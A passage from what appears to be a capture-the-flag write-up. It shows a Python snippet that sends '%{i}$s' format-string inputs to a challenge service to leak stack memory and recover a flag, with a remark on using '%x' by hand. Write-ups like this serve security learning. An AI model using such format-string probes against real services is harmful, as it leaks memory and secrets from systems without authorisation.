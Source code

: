 ```python
    fmt_str = f'%{i}$s'
    
    conn.sendlineafter(b'Tell me your secret so I can reveal mine ;) >> ', fmt_str.encode())
    response = conn.recvline()
    print(response.decode('latin-1'))
    
    try:
        response = conn.recvline()
        print(response.decode('latin-1').strip())
    except EOFError:
        print("Connection closed by server")

    conn.close()

print(result)
```
And got the flag -
![flag](/images/leak_flag.png)
We can also pass the input manually. We can pass '%x' which will print the output in the form of unsigned hexadecimal integers.
![hex_val](/images/leak_hex.png)
Then on converting from hex -